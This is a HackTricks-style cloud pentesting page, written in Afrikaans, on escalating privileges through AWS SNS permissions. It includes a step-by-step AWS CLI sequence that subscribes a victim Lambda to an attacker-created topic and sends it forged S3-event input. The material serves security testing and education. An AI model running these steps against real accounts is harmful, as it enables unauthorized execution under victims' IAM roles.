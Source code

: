 # AWS - SNS Privesc

{{#include ../../../../banners/hacktricks-training.md}}

## SNS

Vir meer inligting sien:

{{#ref}}
../../aws-services/aws-sns-enum.md
{{#endref}}

### `sns:Publish`

'n aanvaller kan skadelike of ongewenste boodskappe na die SNS-topic stuur, wat moontlik databeskadiging veroorsaak, onbedoelde aksies uitlok, of hulpbronne uitput.
```bash
aws sns publish --topic-arn <value> --message <value>
```
**Potensiële impak**: Uitbuiting van kwesbaarhede, data-korrupsie, onbedoelde handelinge, of uitputting van hulpbronne.

### `sns:Subscribe`

'n aanvaller kan op 'n SNS-onderwerp inteken, waardeur hy moontlik ongemagtigde toegang tot boodskappe verkry of die normale werking van toepassings wat op die onderwerp staatmaak, ontwrig.
```bash
aws sns subscribe --topic-arn <value> --protocol <value> --endpoint <value>
```
**Potensiële impak**: Ongemagtigde toegang tot boodskappe (sensitiewe inligting), diensonderbreking vir toepassings wat afhanklik is van die betrokke topic.

### `sns:AddPermission`

’n Aanvaller kan ongemagtigde gebruikers of dienste toegang tot ’n SNS topic verleen, wat moontlik verdere regte kan oplewer.
```bash
aws sns add-permission --topic-arn <value> --label <value> --aws-account-id <value> --action-name <value>
```
**Potensiële impak**: Ongemagtigde toegang tot die topic, blootstelling van boodskappe, of manipulasie van die topic deur ongemagtigde gebruikers of dienste, ontwrigting van normale werking vir toepassings wat op die topic staatmaak.


### Roep 'n Lambda aan deur wildcard SNS-magtiging te misbruik (geen `SourceArn`)

As 'n Lambda-funksie se resource-based policy toelaat dat `sns.amazonaws.com` dit aanroep sonder om die bron-topic (`SourceArn`) te beperk, kan enige SNS-topic (selfs in 'n ander account) inteken en die funksie trigger. 'n Aanvaller met basiese SNS-permissies kan die Lambda dwing om uit te voer onder sy IAM-rol met aanvallersbeheerde invoer.

> [!TIP]
> TODO: Kan dit regtig cross-account gedoen word?

Voorvereistes
- Slagoffer se Lambda-policy bevat 'n stelling soos hieronder, met GEEN `SourceArn`-voorwaarde:
```json
{
"Version": "2012-10-17",
"Statement": [
{
"Effect": "Allow",
"Principal": {"Service": "sns.amazonaws.com"},
"Action": "lambda:InvokeFunction"
// No Condition/SourceArn restriction here
}
]
}
```
Misbruikstappe (dieselfde of cross-account)
```bash
# 1) Create a topic you control
ATTACKER_TOPIC_ARN=$(aws sns create-topic --name attacker-coerce --region us-east-1 --query TopicArn --output text)

# 2) Subscribe the victim Lambda to your topic
aws sns subscribe \
--region us-east-1 \
--topic-arn "$ATTACKER_TOPIC_ARN" \
--protocol lambda \
--notification-endpoint arn:aws:lambda:us-east-1:<victim_acct_id>:function:<VictimFunctionName>

# 3) Publish an attacker-controlled message to trigger the Lambda
aws sns publish \
--region us-east-1 \
--topic-arn "$ATTACKER_TOPIC_ARN" \
--message '{"Records":[{"eventSource":"aws:s3","eventName":"ObjectCreated:Put","s3":{"bucket":{"name":"attacker-bkt"},"object":{"key":"payload.bin"}}}]}'
```
**Potential Impact**: Die slagoffer Lambda word uitgevoer met sy IAM role en verwerk invoer wat deur die aanvaller beheer word. Dit kan misbruik word om die funksie gevoelige aksies te laat uitvoer (bv., skryf na S3, toegang tot secrets, wysig hulpbronne), afhangende van sy toestemmings.

{{#include ../../../../banners/hacktricks-training.md}}
